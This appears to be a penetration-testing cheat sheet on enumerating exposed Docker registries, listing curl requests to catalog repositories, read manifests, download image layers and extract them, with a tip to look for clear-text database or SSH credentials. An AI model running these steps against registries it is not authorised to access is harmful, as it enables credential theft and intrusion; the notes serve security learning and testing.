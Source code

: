 # Docker Registry

## Tools: Postman, Insomnia, Browsers, drg.py https://github.com/Syzik/DockerRegistryGrabber

### Default port: 5000 (Not always the case)

#### Docker registries are JSON endpoitns, so the interaction is quite different from a normal website.

####

## REPOSITORY DISCOVERY

### We may find plain text credentials or any other sensitive information of outdated repositories that haven't been taken down yet. So we can just get them via a GET request.

## EXAMPLE:

#### 1) curl http://IP_ADDRESS:5000/v2/_catalog (List repositories)

#### 2) curl http://IP_ADDRESS:5000/v2/REPOSITORY/tags/list (List manifests)

#### 3) curl http://IP_ADDRESS:5000/v2/REPOSITORY/manifests/latest (Pull the manifests for the image)

#### On step 3 you can also check for any clear-text credentials for a database or ssh etc.

#### 4) curl -s http://IP_ADDRESS:5000/v2/REPOSITORY/blobs/sha256:HASH -output ARCHIVE.tar (Pull all layers of the image and save them in the form of .tar file)

#### 5) tar -xvf ARCHIVE.tar ( Decompress the file to see the contents )
